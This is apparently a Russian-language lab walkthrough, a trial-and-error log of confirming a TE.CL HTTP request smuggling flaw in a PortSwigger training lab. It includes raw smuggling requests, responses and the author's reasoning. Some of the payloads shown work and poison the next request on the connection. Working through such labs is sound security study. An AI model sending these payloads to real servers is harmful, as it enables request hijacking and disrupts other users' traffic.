



лаба
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

задача - вызвать контрабандой ошибку 404 "Не найдено"

---

вот ориг запрос 
```http
GET /post?postId=10 HTTP/2
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7c001a0450969980848023004b00af.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
делаю так `GET /post?postId=1099999 HTTP/2` и получаю ответ 404
как в задании!
отлично - теперь нужно выяснить какой здесь подтип уязвимости 

----

 меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked

-----
сырой запрос выходит
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked
пейлоада - нет
```

---

теперь нужно сделать два базовых запроса для определения базовых видов уязвимостей

классический запрос тест
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 400 "error":"Read timeout" 
ошибка не от сервера - от фронта
###### значит фронт слушается только TE
(так как длинна совпадает с параметрами - то не должно быть ошибок - но есть ошибка - значит фронт пытался отправить частями - и там число чанков 16 - то есть бек ждал 22 символа, но получил 12)


классический запрос тест
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
ответ 500 Server Error: Communication timed out / Proxy error
ошибка - от сервера
значит бек - слушает CL - так как если бы он слушал чанки то там сразу 0 идет и сервер сразу бы ответ!

таким образом - ЗДЕСЬ ЕСТЬ УЯЗВИМОСТЬ TE.CL


схема - шпаргалка



---------


так как фронт слушает только чанки - то нужно такой пейлоад - который бы протащил к беку часть запроса
нужго в чанках указать число символов меньше, чем в самом запросе, и тогда часть запроса дожна остаться в буфере сервера

------

запрос
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 38
Transfer-Encoding: chunked

15
GET /post?postId=10
X-Ignore: X

```
ответ 400  "error":"Invalid request" - уже лучше

```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 2
Transfer-Encoding: chunked

22
GET /post?postId=10
X-Ignore: X

```
ответ 400  "error":"Invalid request" 
бек видимо ждет еще символы для завершения запроса

------

```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

25

GET /post?postId=10
X-Ignore: X
0

```
ответ 400 "Read timeout" (забыл тут протокол указать)

--------------

запрос
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

30

GET /post?postId=10 HTTP/1.1
X-Ignore: X

0

```
но ответ все равно 400 "error":"Read timeout"}

хотя фронт пропускает этот запрос на бек 
и бек получает все это - все что есть!

бек получает это и слушает Content-length: 4 и отчитывает 27и перенос строки и должен закрыть запрос
и в буфере сервера должно остаться 
вот это все
```
GET /post?postId=10
X-Ignore: X

0

```


----

делаю запрос
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

32

GET /post?postId=10000 HTTP/1.1
X-Ignore: X


0


```
и ответ 200!!

повторный ответ тоже 200


-----

вот запрос тоже 200 возвращает мне
```http
POST / HTTP/1.1
Host: 0a7c001a0450969980848023004b00af.web-security-academy.net
Cookie: session=QRh0xt42vTMwKM5yBfoWZtOaMbGXTQZf
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

2e
GET /post?postId=10000 HTTP/1.1
X-Ignore: X

0


```
и вообще без разницы какая длинна у Content-length: - ответ все равно 200

Content-length: 0
Content-length: 2
Content-length: 4
Content-length: 5
Content-length: 6
Content-length: 7
Content-length: 8
Content-length: ...
Content-length: 57

всегда ответ 200!

хотя в описании лабы пишут что бек случшает CL

только когда Content-length: 58 
ответ 
500  Server Error: Communication timed out

-------
так тоже  ответ 200
```http
POST / HTTP/1.1
Host: 0a9a0068038442168086f85800fa00be.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

30

GET /post?postId=10000 HTTP/1.1
X-Ignore: X

0


```

------
получилось!!
аллилуя!!!
первый ответ 200
второй ответ 404  "Not Found"


106 в hex = 6a
```http
POST / HTTP/1.1
Host: 0a9a0068038442168086f85800fa00be.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6a

GET /post?postId=10000 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15


0


```

```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=6WOYrMlwM5Qp6NZVbn5aKvH90cfx7VHg; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11

"Not Found"
```






---

если убрать  `Content-Length: 15`
и сделать так:
```http
POST / HTTP/1.1
Host: 0a9a0068038442168086f85800fa00be.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56

GET /post?postId=10000 HTTP/1.1
Content-Type: application/x-www-form-urlencoded


0


```
то ответ тоже 200!
но!! повторный ответ снова 200 и не получаестя!
то есть Content-Length: 15 - имеет ключевую роль здесь!!!


Content-Length во внутреннем запросе — это механизм "кражи" байт из следующего запроса
без него атака не работает, потому что нечему "добирать" данные из следующего запроса


-------